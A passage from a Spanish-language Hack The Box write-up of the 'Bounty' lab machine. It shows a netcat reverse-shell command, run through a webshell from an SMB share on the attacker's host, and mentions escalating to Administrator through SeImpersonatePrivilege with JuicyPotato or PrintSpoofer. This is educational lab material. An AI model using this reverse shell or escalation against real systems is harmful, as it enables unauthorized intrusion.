 Paralelamente tendremos:

1. Un recurso compartido en smb llamado ```shared```
2. Una sesión a la escucha de netcat por el puerto 443

Ejecutamos ```\\10.10.14.90\shared\nc.exe -e cmd 10.10.14.90 443``` en la webshell y obtendremos una consola como el usuario **merlin**.

![](/images/HTB/Bounty/38-reverse-shell.png)

---
# Consola como Admin

Ya una vez dentro, realizando una enumeración básica, podemos ver que el usuario merlin posee privilegio **SeImpersonatePrivilege** que nos permite ejecutar comandos como Administrador utilizando herramientas como [JuicyPotato](https://github.com/ohpe/juicy-potato) o [PrintSpoofer](https://github.com/itm4n/PrintSpoofer).

![](/images/HTB/Bounty/42-impersonate-token.png)
